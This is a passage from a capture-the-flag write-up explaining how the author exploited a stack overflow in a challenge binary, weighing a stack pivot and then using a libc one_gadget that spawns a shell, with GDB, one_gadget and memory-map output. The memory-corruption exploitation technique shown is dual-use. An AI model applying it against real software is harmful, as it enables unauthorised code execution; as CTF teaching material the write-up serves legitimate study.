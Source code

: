 Next, I had to decide exactly how to deal with my very limited space in which to create a ROPchain. If desired, I could leak the canary and a PIE value first, loop back to start, then leak libc and a stack address for good measure in the second round. For a while, I was very convinced that a stack pivot was the answer; the 10 bytes of overwrite seemed to be pointing in the that direction, plus I originally started debugging on my Kali machine, which places a libc address in rbp+0x8, and a stack address in rbp+0x10. If you have leaks for PIE and the stack, you can overwrite rbp+0x8 to a pop rsp gadget, modify the low two bytes of rbp+0x10 to point to the start of the stack address you filled, and jump to a ROP chain. Alas, this was not to be on the actual system; an inspection of the Dockerfile revealed that the challenge uses Ubuntu 20.04, and debugging on that machine shows libc addresses in both rbp+0x8 and rbp+0x10.
```
gef➤  x/gx $rbp+0x8
0x7ffebe24e448:	0x00007fb1245f30b3
gef➤  x/gx $rbp+0x10
0x7ffebe24e450:	0x00007fb1247fc620
```
So, instead, I turned to the idea of using a onegadget; this is an address in libc that will perform execve("/bin/sh") and produce a shell if certain conditions are met. 
```
knittingirl@piglet:~/CTF/RaRCTF/guessing$ one_gadget libc6_2.31-0ubuntu9.2_amd64.so 
0xe6e73 execve("/bin/sh", r10, r12)
constraints:
  [r10] == NULL || r10 == NULL
  [r12] == NULL || r12 == NULL

0xe6e76 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xe6e79 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```
When we get to the end of main in GDB and check register contents, we can see that rdx is set to 0 by default. In addition, we can control the contents of rsi; since one of the last functions is a read call, and this places user-inputted data into the second parameter, we simply need to make sure that at least the first 8 characters of our user inputs are nulls. 
```
 read(0,local_28,0x32);
```
I came accross a final hurdle as I was running the exploit in GDB. During the course of the onegadget's execution, a value is moved into QWORD PTR [rbp-0x78]. This means that value of rbp-0x78 must be mapped, writable memory. Since I am overwriting rbp by necessity, I need to ensure that the value here meets my needs. 
```
→ 0x55e9a7f423a8 <main+395>       ret    
   ↳  0x7ff892f41e79 <execvpe+1145>   lea    rdi, [rip+0xd072a]        # 0x7ff8930125aa
      0x7ff892f41e80 <execvpe+1152>   mov    QWORD PTR [rbp-0x78], r11
      0x7ff892f41e84 <execvpe+1156>   call   0x7ff892f412f0 <execve>
```
So far, I have only needed to leak libc and a canary, so it makes the most sense to set rbp to a writable section of libc. I ended up picking a spot somewhat at random within the writable section and running with it; vmmap within GDB-GEF is probably the easiest way to find writable sections, and an exerpt is provided below.
```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x000055e9a7f41000 0x000055e9a7f42000 0x0000000000000000 r-- /home/ubuntu/Downloads/guess
0x000055e9a7f42000 0x000055e9a7f43000 0x0000000000001000 r-x /home/ubuntu/Downloads/guess
0x000055e9a7f43000 0x000055e9a7f44000 0x0000000000002000 r-- /home/ubuntu/Downloads/guess
0x000055e9a7f44000 0x000055e9a7f45000 0x0000000000002000 r-- /home/ubuntu/Downloads/guess
0x000055e9a7f45000 0x000055e9a7f46000 0x0000000000003000 rw- /home/ubuntu/Downloads/guess
```
